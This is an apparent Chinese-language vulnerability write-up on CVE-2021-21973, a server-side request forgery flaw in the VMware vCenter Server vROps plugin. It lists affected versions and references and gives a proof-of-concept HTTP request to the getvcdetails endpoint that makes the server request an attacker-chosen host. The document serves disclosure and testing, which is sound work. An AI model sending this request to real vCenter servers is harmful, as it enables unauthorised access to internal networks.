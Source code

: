 # VMware vCenter Server 服务器端请求伪造漏洞 CVE-2021-21973

## 漏洞描述

VMware vCenter Server 插件中对用户提供的输入验证不当，未经过身份验证的远程攻击者可以发送特制的 HTTP 请求，欺骗应用程序向任意系统发起请求。

参考链接：

* https://kb.vmware.com/s/article/82374
* https://twitter.com/osama_hroot/status/1365586206982082560

## 漏洞影响

```
vCenter Server: 6.5, 6.5 U1, 6.5 U3, 6.5.0, 6.5.0a, 6.5.0b, 6.5.0c, 6.5.0d, 6.5u2c, 6.7, 6.7 U3, 6.7.0, 6.7.0d, 6.7u3f, 7.0
Cloud Foundation: before 3.10.1.2, 4.2
```

## 漏洞复现

poc：

```
GET /ui/vropspluginui/rest/services/getvcdetails HTTP/1.1
HOST:
vcIP: SSRF
vcUsername:sa
vaPassword:sa
reqResource:sa
...
```

![image-20221207141353136](images/image-20221207141353136.png)
